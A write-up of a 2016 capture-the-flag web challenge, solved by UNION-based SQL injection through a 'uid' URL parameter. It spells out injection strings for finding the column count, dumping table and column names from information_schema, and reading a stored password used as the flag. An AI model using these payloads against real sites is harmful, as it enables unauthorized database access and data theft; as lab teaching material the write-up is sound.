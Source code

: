 Writeup: EFF-CTF 2016 - Level 0x1
=================================

:date: 2016-02-04
:tags: security, ctf, eff-ctf, web
:lang: en
:summary: Level 0x1 is a web challenge, where you need to exploit a
          (non-blind) SQLi in order to get the flag.


Problem
-------

The following document describes how to solve the level ``0x1``
of the CTF ``EFF-CTF 2016``, available at: `level0x1.eff-ctf.org`_

.. _level0x1.eff-ctf.org:
   https://level0x1.eff-ctf.org


Check for SQLi
--------------

First of all, we've noticed opening tweets for ``admin``, leads us to a page
containing its tweets (2 tweets).

The URL is: `level0x1.eff-ctf.org/tweets?uid=1`_. A ``GET`` parameter has been
passed, so we can **check if there's a SQLi in there**..

After some tries, we've found that using `uid=1 OR 1=1`_ we get not just 2
tweets, but instead the list of all tweets for user ``admin``.

This tells us **there is a SQLi in the GET parameter** ``uid``.

Since it gives us more rows, **the SQLi is inside a** ``WHERE`` **clause**.

.. _`level0x1.eff-ctf.org/tweets?uid=1`:
   https://level0x1.eff-ctf.org/tweets?uid=1
.. _`uid=1 OR 1=1`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20OR%201=1


How to read database contents
-----------------------------

We need to find a way to use the SQLi to read database contents.

We can exploit the fact SQLi is inside the ``WHERE`` clause, so finishing the
query at that point, doesn't product an invalid query, but something like:

.. code-block:: sql
   :linenos: inline

   SELECT ..
     FROM ..
    WHERE ..=1

The result of the query above, is a table with ``n`` rows (one for each column
included in the ``SELECT`` statement).

If we make a ``UNION`` between the table above and another table
(having the same number of columns, ``n``)
**the resulting table will include both of the resulting rows**:

.. code-block:: sql
   :hl_lines: 5 6
   :linenos: inline

   SELECT ..
     FROM ..
    WHERE ..=1
    UNION
   SELECT <our_columns>
     FROM <our_table>


Find the number of columns
--------------------------

Let's try some unions, we'll get errors until we find the right number
of columns:

* `uid=1 UNION SELECT 1`_: *Error*, too few columns.
* `uid=1 UNION SELECT 1, 2`_: *Success*, We can read as output the number ``2``,
  which is **the second field**.
* `uid=1 UNION SELECT 1, 2, 3`_: *Error*, too many columns.

The right number of columns is: ``2``.
We can read the content of the second column, which
**will be where we will dump all of the database informations**.

.. _`uid=1 UNION SELECT 1`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201
.. _`uid=1 UNION SELECT 1, 2`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%202
.. _`uid=1 UNION SELECT 1, 2, 3`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%202,%203


Find the available tables
-------------------------

To find the available tables in the current database, we need to
**dump the tables of the database schema**..

Running
`uid=1 UNION SELECT 1, table_name FROM information_schema.tables`_
gives the following output:

.. table::
   :class: bordered centered

   +----------+--------------------------------------------------+
   | User     |                     Tweet                        |
   +==========+==================================================+
   | admin    | Hackers broke in last night and deleted our      |
   |          | database,I reset it but all the old posts and    |
   |          | messages are gone.                               |
   +----------+--------------------------------------------------+
   | admin    | I have temporarily disabled the login system,    |
   |          | due to the hacker menace                         |
   +----------+--------------------------------------------------+
   | admin    | CHARACTER\_SETS                                  |
   +----------+--------------------------------------------------+
   | admin    | COLLATIONS                                       |
   +----------+--------------------------------------------------+
   | admin    | COLLATION\_CHARACTER\_SET\_APPLICABILITY         |
   +----------+--------------------------------------------------+
   | admin    | COLUMNS                                          |
   +----------+--------------------------------------------------+
   | admin    | COLUMN\_PRIVILEGES                               |
   +----------+--------------------------------------------------+
   | admin    | ENGINES                                          |
   +----------+--------------------------------------------------+
   | admin    | EVENTS                                           |
   +----------+--------------------------------------------------+
   |            ... *so many system tables* ...                  |
   +----------+--------------------------------------------------+
   | admin    | INNODB\_LOCKS                                    |
   +----------+--------------------------------------------------+
   | admin    | INNODB\_CMPMEM\_RESET                            |
   +----------+--------------------------------------------------+
   | admin    | INNODB\_CMP\_RESET                               |
   +----------+--------------------------------------------------+
   | admin    | INNODB\_BUFFER\_PAGE\_LRU                        |
   +----------+--------------------------------------------------+
   | admin    | messages                                         |
   +----------+--------------------------------------------------+
   | admin    | tweets                                           |
   +----------+--------------------------------------------------+
   | admin    | users                                            |
   +----------+--------------------------------------------------+

We can see **the only user-defined tables are**:

- ``messages``
- ``tweets``
- ``users``

.. _`uid=1 UNION SELECT 1, table_name FROM information_schema.tables`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20table_name%20FROM%20information_schema.tables


Find the columns
----------------

To find the columns for each (user-defined) table we need to query the
table ``information_schema.columns`` in the column ``column_name``:


Table ``messages``
~~~~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "messages"`_
we get:

.. table::
   :class: bordered centered

   +----------+--------------------------------------------------+
   |   User   |                     Tweet                        |
   +==========+==================================================+
   | admin    | Hackers broke in last night and deleted our      |
   |          | database,I reset it but all the old posts and    |
   |          | messages are gone.                               |
   +----------+--------------------------------------------------+
   | admin    | I have temporarily disabled the login system,    |
   |          | due to the hacker menace                         |
   +----------+--------------------------------------------------+
   | admin    | mid                                              |
   +----------+--------------------------------------------------+
   | admin    | from                                             |
   +----------+--------------------------------------------------+
   | admin    | to                                               |
   +----------+--------------------------------------------------+
   | admin    | body                                             |
   +----------+--------------------------------------------------+

The ``messages`` table has the following columns:

- ``mid``
- ``from``
- ``to``
- ``body``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "messages"`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22messages%22


Table ``tweets``
~~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "tweets"`_
we get:

.. table::
   :class: bordered centered

   +----------+--------------------------------------------------+
   |   User   |                     Tweet                        |
   +==========+==================================================+
   | admin    | Hackers broke in last night and deleted our      |
   |          | database,I reset it but all the old posts and    |
   |          | messages are gone.                               |
   +----------+--------------------------------------------------+
   | admin    | I have temporarily disabled the login system,    |
   |          | due to the hacker menace                         |
   +----------+--------------------------------------------------+
   | admin    | tid                                              |
   +----------+--------------------------------------------------+
   | admin    | uid                                              |
   +----------+--------------------------------------------------+
   | admin    | body                                             |
   +----------+--------------------------------------------------+

The ``tweets`` table has the following columns:

- ``tid``
- ``uid``
- ``body``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "tweets"`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22tweets%22


Table ``users``
~~~~~~~~~~~~~~~

Using the following query:
`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "users"`_
we get:

.. table::
   :class: bordered centered

   +----------+--------------------------------------------------+
   |   User   |                     Tweet                        |
   +==========+==================================================+
   | admin    | Hackers broke in last night and deleted our      |
   |          | database,I reset it but all the old posts and    |
   |          | messages are gone.                               |
   +----------+--------------------------------------------------+
   | admin    | I have temporarily disabled the login system,    |
   |          | due to the hacker menace                         |
   +----------+--------------------------------------------------+
   | admin    | uid                                              |
   +----------+--------------------------------------------------+
   | admin    | username                                         |
   +----------+--------------------------------------------------+
   | admin    | password                                         |
   +----------+--------------------------------------------------+

The ``users`` table has the following columns:

- ``uid``
- ``username``
- ``password``

.. _`uid=1 UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name = "users"`:
   https://level0x1.eff-ctf.org/tweets?uid=1%20UNION%20SELECT%201,%20column_name%20FROM%20information_schema.columns%20WHERE%20table_name%20=%20%22users%22


Summing up
~~~~~~~~~~

The following tables should be examined:

- Table ``messages`` with columns: ``mid``, ``from``, ``to``, ``body``.
- Table ``tweets`` with columns: ``tid``, ``uid``, ``body``.
- Table ``users`` with columns: ``uid``, ``username``, ``password``.

Examine tables
--------------

After taking a look at the tables described above, we found that column
``body`` of table ``messages`` contains the following text:

- ``Bro send me the password for the secret meeting``
- ``The password is MarcusYallow``
- ``I totes haxxored your stupid twitter! Your code sucks! And your passwords are horrible!``
- ``You little jerk! I'm gonna tell the FBI!``

Flag
----

The flag is ``MarcusYallow``.
